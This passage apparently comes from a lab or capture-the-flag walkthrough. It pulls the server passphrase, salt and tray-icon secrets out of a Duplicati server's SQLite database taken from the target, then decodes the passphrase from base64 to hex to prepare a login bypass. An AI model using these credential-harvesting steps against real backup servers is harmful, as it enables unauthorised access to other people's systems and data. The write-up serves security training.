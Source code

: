 The first step is to get the `server_passphrase` from the `Option` table in the sqlite db named `Duplicati-server.sqlite` which we found during enumeration and transferred to our attacker machine:
```sql
❯ sqlite3 Duplicati-server.sqlite
SQLite version 3.43.2 2023-10-10 13:08:14
Enter ".help" for usage hints.
sqlite> .tables
Backup        Log           Option        TempFile
ErrorLog      Metadata      Schedule      UIStorage
Filter        Notification  Source        Version
sqlite> .schema Option
CREATE TABLE IF NOT EXISTS "Option" (
    "BackupID" INTEGER NOT NULL,
    "Filter" TEXT NOT NULL,
    "Name" TEXT NOT NULL,
    "Value" TEXT NOT NULL
);
sqlite> select * from Option;
4||encryption-module|
4||compression-module|zip
4||dblock-size|50mb
4||--no-encryption|true
-1||--asynchronous-upload-limit|50
-1||--asynchronous-concurrent-upload-limit|50
-2||startup-delay|0s
-2||max-download-speed|
-2||max-upload-speed|
-2||thread-priority|
-2||last-webserver-port|8200
-2||is-first-run|
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|a603bc1c-6f85-4413-bac4-79104ba8d037
-2||server-passphrase-trayicon-hash|nmT3hRJbkDFolMymXYqvMCAqOllizaVKFeF5yqWGx8I=
-2||last-update-check|638726652073861480
-2||update-check-interval|
-2||update-check-latest|
-2||unacked-error|False
-2||unacked-warning|False
-2||server-listen-interface|any
-2||server-ssl-certificate|
-2||has-fixed-invalid-backup-id|True
-2||update-channel|
-2||usage-reporter-level|
-2||has-asked-for-password-protection|true
-2||disable-tray-icon-login|false
-2||allowed-hostnames|*
```

Next, we need to convert the passphrase to hex:
```python
>>> import base64
>>> base64_string = "Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho="
>>> hex_output = base64.b64decode(base64_string).hex()
>>> print(hex_output)
"59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a"
```
